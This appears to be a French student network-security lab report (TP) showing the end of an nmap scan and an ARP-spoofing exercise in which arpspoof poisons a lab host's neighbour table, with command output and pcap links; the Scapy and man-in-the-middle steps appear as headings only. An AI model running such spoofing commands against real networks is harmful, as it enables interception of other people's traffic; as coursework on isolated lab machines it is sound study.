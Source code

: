 ```----------------------------------------------------------```
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 5.80 seconds

🦈 Capture Service Scan

[nmap_2.pcap](nmap_2.pcap)


PARTIE 4 

1. Simple ARP spoof

🌞 Empoisonnez la table ARP de node2.tp1.my

[admin@node1 ~]$ sudo arpspoof -i ens160 -t 10.1.1.101 10.1.1.253
0:c:29:3d:1f:1b 0:c:29:78:2:a4 0806 42: arp reply 10.1.1.253 is-at 0:c:29:3d:1f:1b
0:c:29:3d:1f:1b 0:c:29:78:2:a4 0806 42: arp reply 10.1.1.253 is-at 0:c:29:3d:1f:1b
0:c:29:3d:1f:1b 0:c:29:78:2:a4 0806 42: arp reply 10.1.1.253 is-at 0:c:29:3d:1f:1b
^CCleaning up and re-arping targets...
0:c:29:3d:1f:1b 0:c:29:78:2:a4 0806 42: arp reply 10.1.1.253 is-at 0:c:29:f4:b0:c7
0:c:29:3d:1f:1b 0:c:29:78:2:a4 0806 42: arp reply 10.1.1.253 is-at 0:c:29:f4:b0:c7
0:c:29:3d:1f:1b 0:c:29:78:2:a4 0806 42: arp reply 10.1.1.253 is-at 0:c:29:f4:b0:c7
0:c:29:3d:1f:1b 0:c:29:78:2:a4 0806 42: arp reply 10.1.1.253 is-at 0:c:29:f4:b0:c7
0:c:29:3d:1f:1b 0:c:29:78:2:a4 0806 42: arp reply 10.1.1.253 is-at 0:c:29:f4:b0:c7https://github.com/JustinTAILLART/s-cu_reseau.git

[admin@node2 ~]$ ip n s
10.1.1.100 dev ens160 lladdr 00:0c:29:3d:1f:1b STALE
10.1.1.1 dev ens160 lladdr 00:50:56:c0:00:01 REACHABLE
10.1.1.253 dev ens160 lladdr 00:0c:29:3d:1f:1b REACHABLE

🦈 Capture ARP Spoof

[arp_spoof_1.pcap](arp_spoof_1.pcap)

2. Avec Scapy

🌞 Ecrire un script Scapy qui fait le travail de arpspoof

🦈 Capture ARP Spoof Scapy

🌞 Mettre en place un MITM ARP

🦈 Capture MITM ARP